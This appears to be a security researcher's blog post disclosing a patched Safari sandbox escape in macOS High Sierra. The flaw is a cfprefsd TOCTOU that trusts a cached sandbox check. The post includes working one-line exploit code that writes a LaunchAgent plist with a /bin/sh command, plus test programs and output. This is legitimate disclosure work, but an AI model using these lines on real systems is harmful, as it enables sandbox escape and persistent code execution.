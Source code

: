 ```yaml
---
layout:	post
title:	"One-liner Safari Sandbox Escape Exploit"
date:	2019-03-26
image: /img/cfprefsd-toctou.svg
show_excerpt: true
---
```


I am writing about a dead simple and reliable sandbox escape exploit which only have one line of code. Yeah I am sure it's an exploit, not just PoC. It has nothing to do with iOS so please stop asking me anything about that.

The bug was refactored (or killed) before beta release of Mojave. The latest vulnerable version is macOS High Sierra 10.13.6 (17G65).

Since it's part of a browser exploit chain you'll need a renderer exploit to gain shellcode execution first. If not, disable SIP so you can debug, attach lldb to a running `com.apple.WebKit.WebContent.xpc` and use the following command:

```
po CFPreferencesSetAppValue(@"Label", @"You know what should be put here", [(id)NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"])
```

This line will generate a new plist under `~/Library/LaunchAgents`. With the proper arguments you can launch a Calculator or anything you like after re-logging into system.

What the hell? Isn't writing plist supposed to be blocked by sandbox?

<!-- more -->

The key is that there's a TOCTOU in `cfprefsd` that you **don't even need to race**.

There are [Preferences Utilities](https://developer.apple.com/documentation/corefoundation/preferences_utilities?language=objc) in CoreFoundation for reading and saving plist serialized preferences on macOS.

* <https://developer.apple.com/documentation/corefoundation/1515497-cfpreferencescopyappvalue?language=objc>
* <https://developer.apple.com/documentation/corefoundation/1515528-cfpreferencessetappvalue?language=objc>

Most developers are in favor of `NSUserDefaults`. They are similar for reading and setting serialized key value data, but `NSUserDefaults` is designed for containerized environment (like apps from App Store), while Preferences Utilities has an explicit argument for accessing data from other applications.

These plist files are usually located in:

* `/Library/Preferences` for root privileged processes
* `~/Library/Preferences` for normal, un-containerized process
* `~/Library/Containers/{bundle_id}/Data/Library/Preferences` for containerized apps from mac App Store

The applicationID argument can also be an absolute path, if the app has the access permission. Now the question is, why giving the path outside sandbox it still works?

These functions internally invoke inter process communication via XPC with cfprefsd, as implemented in CoreFoundation. The daemon surely will check the sandbox state of incoming message, with `sandbox_check`.

![](/img/sandbox_check-xref.png)

The TOCTOU is about mistakenly caching the result of `sandbox_check` from the beginning, and keep trusting it during the whole session.

Check this function out:

![](/img/sandbox_check-cache.png)

When a process first initiates an XPC connection with cfprefsd, its sandbox state is checked with sandbox_check function. The result is cached for the duration of this XPC session. Thus, new CFPreference operations are still allowed by cfprefsd after sandbox lockdown because of this cached result.

Minimal test case here.

The following CopyAppValue request obviously will fail:

```objectivec
init_sandbox(); // copy the implementation from WebKit source
NSLog(@"read: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:48.068 a.out[1028:33847] read: (null)
```

The console output for the first try:

> rejecting read of { /Applications/Calculator.app/Contents/Info, kCFPreferencesAnyUser, kCFPreferencesCurrentHost, no container, managed: 0 } from process 1028 because accessing preferences outside an application's container requires user-preference-read or file-read-data sandbox accessNow let's put an extra read operation before init_sandbox, the second call will surprisingly work:

If a process has accessed CFPreferences utilities before it goes into sandbox state, there will be no further sandbox check.

```objectivec
CFPreferencesCopyAppValue(CFSTR("TALLogoutSavesState"), CFSTR("com.apple.loginwindow"));
init_sandbox();
NSLog(@"after: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:08.347 a.out[1026:33710] after: 10.13, Copyright © 2001-2017, Apple Inc.
```

Let's take a look at WebKit's sandbox implementation.

According to the sandbox profile, `process-exec` is prohibited (all rules not explicitly allowed goes to `deny default`)

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.125/WebProcess/com.apple.WebProcess.sb.in.auto.html>

WebKit has a multi-process architecture, so it needs to spawn the process before containerization. At the very beginning of the renderer process creation, it's just a normal process.

Unfortunately the renderer process has such interaction with `CFPreferences` during process initialization:

```
 frame #17: 0x00007fff454e015a CoreFoundation` _CFPreferencesCopyAppValueWithContainerAndConfiguration + 107
 frame #18: 0x00007fff47868b94 Foundation` -[NSUserDefaults(NSUserDefaults) init] + 1423
 frame #19: 0x00007fff47870c3a Foundation` +[NSUserDefaults(NSUserDefaults) standardUserDefaults] + 78
 frame #20: 0x00007fff42a3ba4e AppKit` +[NSApplication initialize] + 90
 frame #21: 0x00007fff71678248 libobjc.A.dylib` CALLING_SOME_+initialize_METHOD + 19
 frame #22: 0x00007fff7166800c libobjc.A.dylib` _class_initialize + 282
 frame #23: 0x00007fff71667a19 libobjc.A.dylib` lookUpImpOrForward + 238
 frame #24: 0x00007fff71667494 libobjc.A.dylib` _objc_msgSend_uncached + 68
 frame #25: 0x0000000100001627 com.apple.WebKit.WebContent` ___lldb_unnamed_symbol1$$com.apple.WebKit.WebContent + 519
 frame #26: 0x00007fff72743ed9 libdyld.dylib` start + 1
```

After the initialization, it calls ChildProcess::initializeSandbox to enter sandbox and load untrusted content.

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.9/Shared/ios/ChildProcessIOS.mm.auto.html>

```cpp
void ChildProcess::initializeSandbox(const ChildProcessInitializationParameters& parameters, SandboxInitializationParameters& sandboxParameters)
{
#if ENABLE(MANUAL_SANDBOXING)
    NSBundle *webkit2Bundle = [NSBundle bundleForClass:NSClassFromString(@"WKView")];
    String defaultProfilePath = [webkit2Bundle pathForResource:[[NSBundle mainBundle] bundleIdentifier] ofType:@"sb"];
    if (sandboxParameters.systemDirectorySuffix().isNull()) {
        String defaultSystemDirectorySuffix = String([[NSBundle mainBundle] bundleIdentifier]) + "+" + parameters.clientIdentifier;
        sandboxParameters.setSystemDirectorySuffix(defaultSystemDirectorySuffix);
    }

    String sandboxImportPath = "/usr/local/share/sandbox/imports";
    sandboxParameters.addPathParameter("IMPORT_DIR", fileSystemRepresentation(sandboxImportPath).data());

    switch (sandboxParameters.mode()) {
    case SandboxInitializationParameters::UseDefaultSandboxProfilePath:
    case SandboxInitializationParameters::UseOverrideSandboxProfilePath: {
        String sandboxProfilePath = sandboxParameters.mode() == SandboxInitializationParameters::UseDefaultSandboxProfilePath ? defaultProfilePath : sandboxParameters.overrideSandboxProfilePath();
        if (!sandboxProfilePath.isEmpty()) {
            CString profilePath = fileSystemRepresentation(sandboxProfilePath);
            char* errorBuf;
            if (sandbox_init_with_parameters(profilePath.data(), SANDBOX_NAMED_EXTERNAL, sandboxParameters.namedParameterArray(), &errorBuf)) {
                WTFLogAlways("%s: Couldn't initialize sandbox profile [%s], error '%s'\n", getprogname(), profilePath.data(), errorBuf);
                for (size_t i = 0, count = sandboxParameters.count(); i != count; ++i)
                    WTFLogAlways("%s=%s\n", sandboxParameters.name(i), sandboxParameters.value(i));
                exit(EX_NOPERM);
            }
        }

        break;
    }
```

So cfprefsd will always treat it like a normal process.

![](/img/cfprefsd-toctou.svg)

No additional action required, just access arbitrary preferences from arbitrary domain under same uid with these utilities. Let's assume you've already archived rop or shellcode to dlopen the escape payload, all you need to put in the dylib constructor function is the following one line of code:

```objectivec
CFPreferencesSetAppValue(CFSTR("ProgramArguments"), (__bridge CFArrayRef)@[@"/bin/sh", @"-c", @"open -a Calculator"], (__bridge CFStringRef)[NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"]);
```

LaunchAgent requires logging off, so I digged around and found another way to trigger the code execution outside instantly. Well this instant trigger actually has nearly 80 lines of code (make it clear in case of the criticize for the title).

Here's the live demo chained with WebSQL renderer exploit from Pwn2Own 2017 (credit to Slipper & Kelwin). Don't have a working renderer exploit on High Sierra so I use the old one.

<iframe width="720" height="480" src="https://www.youtube.com/embed/rOcDnmZXAHU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This bug affects at least from El Capitan to High Sierra (10.13.6), or maybe even earlier version. No CVE assigned but I think it's worth branding.
